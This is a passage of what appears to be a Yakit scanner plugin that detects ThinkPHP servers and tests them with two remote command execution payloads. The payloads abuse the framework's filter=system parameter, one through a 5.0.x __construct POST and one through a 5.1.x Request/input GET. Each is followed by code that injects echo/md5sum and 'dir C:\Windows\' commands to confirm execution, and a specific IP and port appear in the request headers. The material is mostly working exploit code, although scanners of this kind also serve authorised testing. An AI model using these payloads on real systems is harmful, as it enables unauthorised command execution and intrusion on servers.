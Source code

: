 ```go
Content-Type: application/x-www-form-urlencoded
Origin: http://123.58.236.76:59844
Pragma: no-cache
Referer: http://123.58.236.76:59844/index.php?s=index/index/index
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36

s={{url({{params(cmd)}})}}&_method=__construct&filter%5B%5D=system

`},{
        "name":"5.1.x命令执行",
        "payload":`GET /index.php?s=index/\think\Request/input&filter=system&data={{url({{params(cmd)}})}} HTTP/1.1
Host: {{params(target)}}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: close
Content-Length: 0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36

`}]

thinkphpFingers = ["X-Powered-By: .*((?i)thinkphp).*"]

testExp = fn(rootUrl){
    yakit_output(sprintf("%s发现thinkphp框架",rootUrl))
    host,port,_ = str.ParseStringToHostPort(rootUrl)
    target = sprintf("%s:%d",host,port)
    for _,payload = range payloads{
        out = ""
        payloadR = ""
        randomStr = str.RandStr(20)
        result = codec.Md5(randomStr)
        cmd = sprintf("echo -n '%v' | md5sum", randomStr)
        rsp,req,_ = poc.HTTP(payload["payload"], poc.params({"cmd": cmd,"target": target}))
        headers, body = str.SplitHTTPHeadersAndBodyFromPacket(rsp)
        // println(string(headers))
        if str.MatchAllOfSubString(body, result){
            payloadR,_ = str.SplitHTTPHeadersAndBodyFromPacket(req)
            out = sprintf("%s存在漏洞, pocName:%s, OS: Linux",rootUrl,payload["name"])
        }

        rsp,req,_ = poc.HTTP(payload["payload"], poc.params({"cmd": "dir C:\\Windows\\","target": target}))
        headers, body = str.SplitHTTPHeadersAndBodyFromPacket(rsp)
        // println(string(headers))
        if str.MatchAllOfSubString(body, "system.ini"){
            payloadR,_ = str.SplitHTTPHeadersAndBodyFromPacket(req)
            out = sprintf("%s存在漏洞, pocName:%s, OS: Windows",rootUrl,payload["name"])
        }
        if out != ""{
            yakit_output(out)
            risk.NewRisk(rootUrl,risk.title(sprintf("%s存在RCE漏洞",rootUrl)),risk.details(out),risk.type("RCE"),risk.payload(payloadR))
        }
    }
}
```